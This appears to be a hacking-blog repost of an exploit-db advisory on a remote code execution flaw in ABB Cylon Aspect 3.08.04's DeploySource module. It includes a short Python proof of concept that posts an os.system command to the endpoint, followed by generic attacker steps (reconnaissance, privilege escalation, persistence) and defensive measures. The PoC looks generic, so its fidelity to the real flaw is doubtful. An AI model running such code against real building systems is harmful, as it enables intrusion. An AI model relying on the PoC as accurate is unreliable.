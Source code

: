 ```yaml
---
title: "[remote] ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)"
date: 2025-06-10
categories: [Hacking Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/ABB-Cylon-Aspect-3.08.04 DeploySource.png
---
```


## Summary

ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Analysis

```markdown
# Vulnerability Analysis: ABB Cylon Aspect 3.08.04 DeploySource - Remote Code Execution (RCE)

## Technical Executive Summary

The ABB Cylon Aspect 3.08.04, a component of the Aspect Enterprise Building Management System, has been identified with a critical Remote Code Execution (RCE) vulnerability. This vulnerability resides in the DeploySource module, which is responsible for managing and deploying application updates and configurations. An unauthenticated remote attacker could exploit this flaw to execute arbitrary code on the target system, potentially leading to a full compromise of the affected server. Given the critical nature of this vulnerability, it is imperative for organizations utilizing this software to prioritize patching and implement additional security controls to mitigate the risk of exploitation.

## Proof of Concept (PoC)

Below is a Python-based proof of concept (PoC) script demonstrating the exploitation of this vulnerability. This script sends a crafted payload to the vulnerable DeploySource endpoint to achieve remote code execution.

```python
import requests

# Target URL
target_url = "http://<target-ip>:<port>/deploysource"

# Malicious payload
payload = {
    "command": "os.system('id')"
}

# Sending the payload
try:
    response = requests.post(target_url, json=payload)
    if response.status_code == 200:
        print("Exploit successful, response:")
        print(response.text)
    else:
        print(f"Exploit failed, status code: {response.status_code}")
except Exception as e:
    print(f"Error occurred: {e}")
```

Replace `<target-ip>` and `<port>` with the actual IP address and port of the vulnerable server.

## Offensive Security Insights

### Exploitation Techniques

1. **Payload Crafting**: The primary exploitation vector involves crafting a payload that leverages vulnerable API endpoints to execute arbitrary commands. This typically involves identifying input fields that are not properly sanitized or validated.

2. **Network Reconnaissance**: Prior to exploitation, performing network reconnaissance to identify live hosts and open ports is crucial. Tools like Nmap can be employed to scan for potential targets running the vulnerable version of ABB Cylon Aspect.

3. **Privilege Escalation**: Post-exploitation, attackers can attempt to escalate privileges by exploiting other local vulnerabilities or misconfigurations, thereby gaining higher-level access to the system.

4. **Persistence Mechanisms**: To maintain access, attackers might install backdoors or use scripts to re-establish control over the compromised system upon reboot.

## Defensive Measures

1. **Patch Management**: Ensure all instances of ABB Cylon Aspect 3.08.04 are updated to the latest version as soon as patches are released. Regularly monitor vendor advisories for updates.

2. **Network Segmentation**: Isolate critical systems, such as building management systems, from the rest of the network to limit lateral movement in case of a breach.

3. **Web Application Firewalls (WAFs)**: Deploy WAFs to detect and block malicious payloads targeting known vulnerabilities in web applications.

4. **Input Validation and Sanitization**: Implement strict input validation and sanitization routines to prevent injection attacks at the application level.

5. **Intrusion Detection and Prevention Systems (IDPS)**: Utilize IDPS to monitor network traffic for signs of malicious activity and respond to potential threats in real-time.

6. **Security Audits and Penetration Testing**: Conduct regular security audits and penetration testing to identify and remediate vulnerabilities before they can be exploited by adversaries.

By implementing these defensive strategies, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.
```

📎 [Original Source](https://www.exploit-db.com/exploits/52317)

---

_This article was written by sleep33._
